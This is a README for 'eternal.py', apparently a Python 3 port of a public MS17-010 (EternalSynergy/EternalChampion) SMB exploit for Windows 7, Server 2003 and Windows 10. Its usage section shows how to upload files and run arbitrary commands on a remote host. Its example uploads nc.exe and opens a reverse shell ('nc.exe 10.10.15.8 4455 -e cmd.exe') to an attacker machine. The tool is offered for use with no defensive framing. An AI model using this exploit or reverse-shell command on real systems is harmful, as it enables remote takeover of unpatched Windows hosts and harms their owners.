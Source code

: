 # Eternal.py

This is a python3 implementation from the zzz_exploit. (https://github.com/worawit/MS17-010)

Original exploit was based on eternal sinergy and eternal champion. This is a partially translation to python3, with the "mysmb.py" included. Tested in windows 7, windows server 2003, and windows 10. Other Operative Systems may require to finish the translation to python3.

usage: 

   `python3 eternal.py -i <remote ip> -t <file to transfer> -o <output file name>`
   
   `python3 eternal.py -i <remote ip> -c <rce to execute>`

 NOTE: files transfered will appear inside remote host like c:\<output file name>

example: `python3 eternal.py -i 10.10.10.40 -t nc.exe -o nc.exe -c 'c:/nc.exe 10.10.15.8 4455 -e cmd.exe'`



If this exploit was usefull to you remember to subscribe to my youtube channel -> https://www.youtube.com/@artes_oscuras
